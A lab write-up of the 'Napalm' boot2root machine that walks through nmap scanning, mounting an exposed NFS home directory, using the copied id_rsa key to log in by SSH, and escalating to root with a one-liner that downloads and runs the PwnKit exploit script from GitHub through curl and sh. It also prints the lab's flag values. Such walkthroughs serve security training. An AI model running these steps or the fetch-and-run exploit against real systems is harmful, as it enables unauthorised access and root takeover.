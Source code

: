 ```yaml
---
date:
  created: 2023-12-19
  updated: 2023-12-19
description: Napalm Writeup
tags:
  - nfs
  - ssh-key
  - linpeas
  - pwnkit
comments: true
---
```


# Napalm

Today we will doing Boot2Root machine, Napalm.

![](/images/writeup/internship/napalm/napalm.PNG)

## Reconnaissance

`IP = 192.168.8.90`

First and foremost, doing nmap scan to gather information of the machine. We get this. Scan TCP and UDP.

### PORT

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/napalm]
└─# nmap -p- --min-rate 5000 192.168.8.90             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-16 23:10 EST
Nmap scan report for 192.168.8.90
Host is up (0.0046s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
111/tcp   open  rpcbind
2049/tcp  open  nfs
39196/tcp open  unknown
45521/tcp open  unknown
49289/tcp open  unknown
58387/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 21.31 seconds
```
### TCP

```js
┌──(root㉿kali)-[/home/…/Desktop/internship/napalm/nmap]
└─# cat tcpscan.txt    
# Nmap 7.94SVN scan initiated Thu Nov 16 20:14:42 2023 as: nmap -sCV -p 22,111,39196,45521,58387 -oN nmap/tcpscan.txt 192.168.8.90
Nmap scan report for 192.168.8.90
Host is up (0.0050s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:3e:a2:9c:ab:b3:f4:f7:d0:51:5c:27:a3:c3:be:81 (RSA)
|   256 f8:e1:6a:d4:23:07:11:36:2a:cf:42:8a:7b:b9:2b:52 (ECDSA)
|_  256 8a:e0:75:ad:06:3f:06:e1:6e:94:07:ad:8f:42:33:e5 (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100003  2,3,4       2049/udp6  nfs
|   100021  1,3,4      33388/udp6  nlockmgr
|   100021  1,3,4      39196/tcp   nlockmgr
|   100021  1,3,4      39348/tcp6  nlockmgr
|   100021  1,3,4      46481/udp   nlockmgr
|   100227  2,3         2049/tcp6  nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
39196/tcp open  nlockmgr 1-4 (RPC #100021)
45521/tcp open  mountd   1-3 (RPC #100005)
58387/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 16 20:15:12 2023 -- 1 IP address (1 host up) scanned in 30.76 seconds

```

We can see here, there is port `111` which is port for `rpcbind` and there `2049` port for `nfs` service connect to it
### UDP

```js
Nmap scan report for 192.168.8.90
Host is up, received reset ttl 128 (0.0047s latency).
Scanned at 2023-11-16 20:14:08 EST for 1597s
Not shown: 998 open|filtered udp ports (no-response)
PORT     STATE SERVICE REASON
111/udp  open  rpcbind udp-response ttl 128
2049/udp open  nfs     udp-response ttl 128

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Nov 16 20:40:45 2023 -- 1 IP address (1 host up) scanned in 1610.40 seconds
```

## Exploitation

For the exploitation part, I dunno nothing about `rpcbind`, so we ask our friend `mr.google` what is this and is there any writeup about this port. In simpler terms, it is a service that helps manage and facilitate communication between different processes on a network using the RPC protocol. I find something interesting on here about nfs

[https://0xdf.gitlab.io/2022/05/23/htb-jail.html#nfs---tcp-2049](https://0xdf.gitlab.io/2022/05/23/htb-jail.html#nfs---tcp-2049)

We will try this command

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/napalm]
└─# showmount -e 192.168.8.90  
Export list for 192.168.8.90:
/home/superpoweradmin/
```

It shows something interesting here, which is we can mount it to our machine and get the file into our disk. But first we need to do the directory `/mnt/opt` or any directory that we want to mount into.

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/napalm]
└─# mount -t nfs 192.168.8.90:/home/superpoweradmin /mnt/opt/
```

So right now it is successful connect to our machine. Directly we copy the file and put in our working machine directory for easy access.

```js
┌──(root㉿kali)-[/home/…/Desktop/internship/napalm/opt]
└─# ls -la
total 56
drwxr-xr-x 7 root root 4096 Nov 16 21:25 .
drwxr-xr-x 4 kali kali 4096 Nov 16 22:54 ..
-rw------- 1 root root   66 Nov 16 21:25 .bash_history
-rw-r--r-- 1 root root  220 Nov 16 21:25 .bash_logout
-rw-r--r-- 1 root root 3771 Nov 16 21:25 .bashrc
drwx------ 2 root root 4096 Nov 16 21:25 .cache
drwxr-x--- 3 root root 4096 Nov 16 21:25 .config
-r-------- 1 root root   39 Nov 16 21:25 flag2.txt
drwx------ 2 root root 4096 Nov 16 21:25 .gnupg
drwxr-xr-x 2 root root 4096 Nov 16 21:25 .nano
-rw-r--r-- 1 root root  675 Nov 16 21:25 .profile
-rw------- 1 root root    5 Nov 16 21:25 .python_history
drwx------ 2 root root 4096 Nov 17 01:35 .ssh
-rw-r--r-- 1 root root  167 Nov 16 21:25 .wget-hsts   
```

We can see there is a `flag2.txt`. Submit it first

`flag{141a18f81cf9a84b7361f01f9b1d2860}`

```js
┌──(root㉿kali)-[/home/…/internship/napalm/opt/.ssh]
└─# ls -la
total 24
drwx------ 2 root root 4096 Nov 17 01:35 .
drwxr-xr-x 7 root root 4096 Nov 16 21:25 ..
-rw------- 1 root root 1533 Nov 16 21:25 authorized_keys
-rw------- 1 root root 1679 Nov 16 21:25 id_rsa
-rw-r--r-- 1 root root  407 Nov 16 21:25 id_rsa.pub
-rw-r--r-- 1 root root  222 Nov 16 21:25 known_hosts
```

Then I see something interesting which is the `.ssh` file open it and tadaa there is `id_rsa` key. It make much more easier to get the foothold with this. Directly we can use this command to get access into the machine

```js
┌──(root㉿kali)-[/home/kali/Desktop/internship/napalm]
└─# ssh -i id_rsa superpoweradmin@192.168.8.90
#############################################################
#####							#####
#####							#####
#####		      NaPaLm SSH Server			#####
#####							#####
#####							#####
#####	Please Do not attack our server. Your IP are	#####
#####		     recorded in our log		#####
#####							#####
##### 			    flag1			#####
#####	   flag{72dbcd2759d2eeb78a8c9a93a146eba6}	#####
#############################################################
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

142 packages can be updated.
3 updates are security updates.

New release '18.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Fri Nov 17 12:47:28 2023 from 192.168.22.75
superpoweradmin@napalm-07:~$
```

We get into the machine and directly there is `flag1.txt`, grab it.

## Privileges Escalation

So for the privesc part, we need to know what is running in this machine and anything that we can exploit. `wget` command can be use, so we utilize it and download the `linpeas.sh`, `pspy64` or `lse.sh`.

After a while running all of this, I found nothing interesting and try to crack the id_rsa key perhaps it might be give something to me or exploit the kernel version and so on. 

Then, someone said that dont think to hard. just look on the `linpeas` carefully. With carefulness, I scroll it and there is in `linpeas` said that we can use `PwnKit` to exploit this machine. Directly I tried it with oneliner command. Run this and boom we got the root shell.

```js
superpoweradmin@napalm-07:~$ sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
root@napalm-07:/home/superpoweradmin#
```

Go to `/root` directory and grab the flag

```js
root@napalm-07:~# cat flag3.txt 
flag{fa4af3abc1a53c21e7b6598bb9fa7507}
```






